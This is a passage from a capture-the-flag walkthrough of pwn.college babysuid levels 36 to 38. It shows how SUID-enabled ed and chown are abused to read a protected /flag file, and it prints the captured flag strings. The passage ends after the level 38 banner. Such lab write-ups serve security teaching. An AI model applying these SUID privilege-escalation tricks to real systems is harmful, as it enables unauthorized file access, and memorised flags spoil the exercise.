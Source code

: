 ```
hacker@program-misuse~level36:/$ ed -v /flag
57

```

The stream has been opened. We can now type `p` to retrieve the flag which starts with P and then type `q` to quit.

```
p
pwn.college{wXtf1Ad-tydBVABAHvjcoTSCfif.0FO3EDL4ITM0EzW}
q
```

&nbsp;

## level 37

```
hacker@program-misuse~level37:/$ /challenge/babysuid_level37 
Welcome to /challenge/babysuid_level37!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/chown.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level37) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/chown!
```

The `chown` utility changes the user and/or group ownership of each given file.

```
hacker@program-misuse~level37:/$ chown hacker /flag && cat /flag 
pwn.college{kQyPS6XzM4VDmxQVQoqSnBGc-Do.0VO3EDL4ITM0EzW}
```

&nbsp;

## level 38

```
hacker@program-misuse~level38:/$ /challenge/babysuid_level38 
Welcome to /challenge/babysuid_level38!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/chmod.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level38) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/chmod!
```
